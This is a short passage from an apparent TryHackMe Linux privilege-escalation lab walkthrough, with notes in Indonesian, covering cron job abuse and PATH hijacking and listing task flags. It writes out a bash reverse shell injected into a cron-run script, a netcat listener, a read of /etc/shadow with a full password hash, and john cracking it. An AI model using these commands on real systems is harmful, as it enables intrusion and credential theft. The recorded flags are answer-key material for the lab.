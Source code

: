 ## Find Flag
THM-9349843


[=]  Task 9 - PrivEsc via Cron Jobs  [=]

## Find cronjob
>. cat /etc/crontab

## Exploit
-- Pilih satu cronjob untuk diexploit
   -- Misal : backup.sh (/home/karen/backup.sh)
-- Jalankan local port dengan netcat
   >. sudo nc -nvlp 1337
-- Modifikasi file backup.sh
   >. nano /home/karen/backup.sh
      #!/bin/bash
      bash -i >& /dev/tcp/{ip_vpn}/{local_port_nc} 0>&1
   -- save
      CTRL + X -> Y -> Enter
-- Ubah permission
   >. chmod +x /home/karen/backup.sh
   -- Tunggu koneksi terhubung ke netcat
   -- SUCCESS :)

## Find Flag
THM-383000283

## Find other user credentials
>. cat /etc/shadow
-- pwd : $6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.

## Hash password
>. john --wordlist=/usr/share/wordlists/rockyou.txt matt.txt
-- pwd = 123456


[=]  Task 10 - PrivEsc via Path  [=]

## Check Path
>. echo $PATH

## Modify Path, add /tmp
>. export PATH=/tmp:$PATH
>. echo $PATH

## Exploit
>. ./test
   -- error karena tidak ada file thm
